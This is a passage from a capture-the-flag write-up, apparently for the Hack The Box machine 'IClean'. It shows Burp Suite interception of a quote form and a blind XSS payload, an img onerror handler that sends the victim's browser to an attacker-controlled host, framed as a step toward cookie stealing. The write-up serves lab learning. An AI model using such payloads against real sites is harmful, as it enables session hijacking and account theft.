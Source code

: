 This makes us to think about XSS cookie stealing. 

## Blind XSS

Let's spin up Burp Suite and intercept traffic on `/quote`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-8.png)

We can observe our input being forwarded to `/sendMessage`.

Let's check on blind XSS through the following payload. 

We will start a Python HTTP server and see if the payload below will make a connection to the Python server:

`<img src=x onerror="document.location='http://10.10.14.36:1234/'"/>`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-9.png)
